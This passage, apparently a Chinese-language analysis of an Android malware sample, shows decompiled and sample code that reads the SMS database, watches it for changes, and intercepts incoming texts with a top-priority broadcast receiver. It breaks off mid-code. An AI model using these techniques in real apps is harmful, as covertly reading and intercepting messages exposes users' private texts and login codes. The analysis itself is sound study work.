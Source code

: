 ```xml
<uses-permission android:name="android.permission.SEND_SMS" />
<uses-permission android:name="android.permission.RECEIVE_SMS" />
```

通过短信数据库获取短信内容，注册 SMS 监视器，监听短信数据库的变化，添加删除修改，变化的时候会回调 **onChange** 方法，提取刚刚变化的那条短信的内容。

```java
v0.registerContentObserver(Uri.parse("content://sms"), true, this.f);  // 注册SMS监视器
```

```java
public List a() {
        ArrayList v6 = new ArrayList();
        Cursor v0 = this.a.getContentResolver().query(Uri.parse("content://sms/"), new String[]{"_id", "address", "body", "date", "type"}, null, null, " date desc ");
        while(v0.moveToNext()) {
            e v1 = new e();
            String v2 = v0.getString(0);
            String v3 = v0.getString(1);
            String v4 = v0.getString(2);
            long v8 = v0.getLong(3);
            String v5 = v0.getString(4);
            String v7 = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss").format(new Date(v8));
            v1.a(v2);
            v1.c(v3);
            v1.b(v4);
            v1.d(v7);
            v1.e(v5);
            ((List)v6).add(v1);
        }
```



### 拦截短信

```xml
<receiver android:name="com.t20.receiver.SmsReceiver">
   <intent-filter android:priority="1000" >
   <!-- 有序广播设置优先级：priority表示优先级（0-1000），默认是500 ,1000的优先级最高-->
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
        </intent-filter>
</receiver>
```

```java
package com.t20.receiver;
 
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsMessage;
 
public class SmsReceiver extends BroadcastReceiver {
 
	@Override
	public void onReceive(Context context, Intent intent) {
		// TODO Auto-generated method stub
		//1、接收短信协议
		Bundle bundle= intent.getExtras(); //Bundle表示MAP套装(键值对)
		//2、通过Bundle取值
		Object[] objs= (Object[]) bundle.get("pdus");
		for (Object obj : objs) {
			 //3、获取短信对象
			 SmsMessage sms=SmsMessage.createFromPdu((byte[])obj);
			 System.out.println("短信联系人："+sms.getOriginatingAddress());
```